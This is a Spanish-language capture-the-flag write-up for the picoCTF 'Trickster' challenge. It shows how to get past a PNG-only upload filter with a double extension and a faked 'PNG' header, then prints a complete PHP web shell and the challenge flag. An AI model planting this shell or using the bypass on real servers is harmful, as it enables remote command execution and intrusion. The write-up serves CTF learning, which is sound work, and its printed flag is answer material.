 # Trickster
![Descripcion del CTF](img/description.png)

## Descripción
I found a web app that can help process images: PNG images only!  
Additional details will be available after launching your challenge instance.

## Resolución
Lanzamos la instancia y entramos en la página web:

![Página web](img/1.png)

Antes de comenzar, buscaremos los archivos robots.txt y .htaccess. No podemos acceder a .htaccess, pero sí a robots.txt:

![Página web](img/2.png)

Vemos que hay un archivo llamado instructions.txt y una carpeta llamada /uploads/. Entramos en instructions.txt:

![Página web](img/3.png)

Con esto vemos los filtros que se aplican a la subida de archivos:
- Que contenga .png en el nombre
- Que los primeros bytes sean 50 4E 47

Con lo cual, podemos adaptar una web shell para que supere estas condiciones.  Tras haber probado varias, la única que ha funcionado es la menos compleja de todas, de [Joshua Wright](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985):

```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

Al poner 'PNG', se cumplirá la segunda condición (es la cabecera de todos los archivos .png, no es necesario editar hexadecimalmente la cabecera del archivo, aunque se conseguiría el mismo resultado) y, al guardar el archivo con el nombre 'shell.png.php' superaremos la primera.

Subimos el archivo:

![Página web](img/4.png)

Y lo buscamos dentro de la carpeta '/uploads/' que encontramos en robots.txt (http://atlas.picoctf.net:64982/uploads/shell.png.php).
Ahora podemos buscar la flag, comenzaremos por el directorio /var/www/html, que es la carpeta de la página web, ahí encontraremos un archivo llamado 'GNTDOMBWGIZDE.txt'.
Lo abriremos con el siguiente comando:

```bash
cat /var/www/html/GNTDOMBWGIZDE.txt
```

![Página web](img/5.png)

Obteniendo así la flag: 'picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_3f706222}'.